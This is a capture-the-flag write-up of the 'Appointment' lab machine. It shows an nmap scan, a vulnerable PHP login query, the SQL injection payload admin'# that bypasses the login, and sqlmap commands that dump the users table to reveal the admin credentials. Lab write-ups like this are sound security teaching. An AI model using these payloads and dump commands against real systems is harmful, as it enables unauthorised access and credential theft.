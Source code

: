 # Appointment

##### Difficulty: [ Very Easy ]

**Tags:** `Linux`,  `SQL`,  `SQLi`,  `MariaDB`

---

##### Written: 21/12/2021

##### IP address: 10.129.78.154 

---

### [ What does the acronym SQL stand for? ]

**Structured Query Language**

---

### [ What is one of the most common type of SQL vulnerabilities? ]

**SQL Injection**

---

### [ What does PII stand for? ]

**Personally Identifiable Information**

---

### [ What does the OWASP Top 10 list name the classification for this vulnerability? ]

Based on the OWASP page: https://owasp.org/www-project-top-ten/

The classification is: **A03:2021-Injection**

---

### [ What service and version are running on port 80 of the target? ]

Let's run a basic **Nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.129.78.154
```

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that the service and version running on port 80 is **Apache httpd 2.4.38 ((Debian))**

---

### [ What is the standard port used for the HTTPS protocol? ]

**443**

---

### [ What is one luck-based method of exploiting login pages? ]

**Brute-forcing**

---

### [ What is a folder called in web-application terminology? ]

**Directory**

---

### [ What response code is given for "Not Found" errors? ]

Response code: **404**

---

### [ What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains? ]

**dir**

---

### [ What symbol do we use to comment out parts of the code? ]

**#**

---

### [ Submit root flag ]

Let's visit http://10.129.78.154/:

<img style="float: left;" src="screenshots/screenshot2.png">

We are greeted with a login page.

I first tried default credentials like **admin:admin**. Unfortunately, none of those credentials worked.

As the room suggests, we most likely have to use **SQL Injection** in order to log into an account. 

One of the most common methods of SQLi is to use the comment characters, '**#**' or '**--**' to comment out the rest of the query. This will work if the server simply concatenates the user input for username and password directly into the query that is sent over to the database.

Take the following PHP code for eg:

```php
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.

$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

If we input username=`test` and password=`test`, then the SQL query that is sent to the DB will be:

```
SELECT * FROM users WHERE username='test' AND password='test'
```

However, what if we input username=`admin'#` and a random password? The SQL query becomes:

```
SELECT * FROM users WHERE username='admin'#' AND password='test'
```

Because of the `#` character, whatever comes after that will become a comment and will not be included in the SQL query. This means that `' AND password='test'` becomes a comment in the PHP code and the SQL query that is sent will be:

```
SELECT * FROM users WHERE username='admin'
```

This query will succeed if there is a user called '**admin**', and we would be able to log into their account!

<br>

Let's try using `admin'#` as the username on the website:

<img style="float: left;" src="screenshots/screenshot3.png">

It works! We got the root flag.

---

### [ BONUS: USING SQLMAP TO ENUMERATE ADMIN CREDENTIALS ]

If we want to go a bit overkill, we can use `sqlmap` to obtain the admin credentials. Let's first see if the login form on the website is susceptible to SQLi and if so, enumerate the databases present on the DB.

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 --dbs --batch 
```

*--forms will automatically detect forms that are on the host.*

*--dbs enumerates databases present on the DB server.*

*--batch automatically answers prompts by sqlmap during runtime.*

<img style="float: left;" src="screenshots/screenshot4.png">

Great, `sqlmap` managed to find a few injection points with the **username** field. From the results, we can see that there are **2** dbs: **appdb** and **information_schema**.

Let's now update our sqlmap command to enumerate the tables in the **appdb** db:

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 -D appdb --tables --batch
```

*We now use the -D option to specify the target db and the --tables to enumerate tables within that target db.*

<img style="float: left;" src="screenshots/screenshot5.png">

There is a table called **users**.

Finally, let's update our sqlmap command once more to dump out all the data in that table:

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 -D appdb -T users --dump --batch
```

*This time, we use -T to specify the table and --dump to dump out all table contents.*

<img style="float: left;" src="screenshots/screenshot6.png">

And we get the admin credentials - **admin:328ufsdhjfu2hfnjsekh3rihjfcn23KDFmfesd239"23m^jdf**
